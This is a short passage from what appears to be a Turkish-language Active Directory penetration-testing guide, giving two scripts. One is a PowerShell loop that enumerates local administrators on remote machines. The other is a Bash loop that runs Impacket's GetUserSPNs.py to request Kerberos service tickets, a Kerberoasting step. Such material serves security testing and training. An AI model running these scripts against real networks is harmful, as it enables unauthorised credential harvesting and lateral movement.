 
## 9. PowerShell ve Bash Scriptleri

### Local Admin Kontrol Scripti (PowerShell):
```powershell
$computers = Get-Content computers.txt
foreach ($computer in $computers) {
    Invoke-Command -ComputerName $computer -ScriptBlock { net localgroup administrators }
}
```

### Kerberos Ticket Dump Scripti (Bash):
```bash
#!/bin/bash
for user in $(cat users.txt); do
    python GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
done
```

---
